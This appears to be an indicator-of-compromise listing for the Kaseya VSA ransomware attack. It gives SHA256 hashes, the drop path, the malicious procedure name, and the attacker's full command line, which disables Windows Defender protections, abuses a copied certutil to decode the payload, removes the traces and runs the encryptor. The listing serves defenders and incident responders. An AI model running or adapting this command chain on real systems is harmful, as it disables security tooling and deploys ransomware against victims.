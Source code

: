 # angular123456789







IOCs (SHA256):

agent.exe d55f983c994caa160ec63a59f6b4250fe67fb3e8c43a388aec60a4a6978e9f1e

mpsvc.dll (sideloaded DLL, we have seen this file first hand) e2a24ab94f865caeacdf2c3ad015f31f23008ac6db8312c2cbfb32e4a5466ea2

mpsvc.dll (sideloaded DLL that others have seen) 8dd620d9aeb35960bb766458c8890ede987c33d239cf730f93fe49d90ae759dd



Ransomware encryptor is dropped to c:\kworking\agent.exe

The VSA procedure is named "Kaseya VSA Agent Hot-fix”

At least two tasks run the following: "C:\WINDOWS\system32\cmd.exe" /c ping 127.0.0.1 -n 4979 > nul & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend & copy /Y C:\Windows\System32\certutil.exe C:\Windows\cert.exe & echo %RANDOM% >> C:\Windows\cert.exe & C:\Windows\cert.exe -decode c:\kworking\agent.crt c:\kworking\agent.exe & del /q /f c:\kworking\agent.crt C:\Windows\cert.exe & c:\kworking\agent.exe
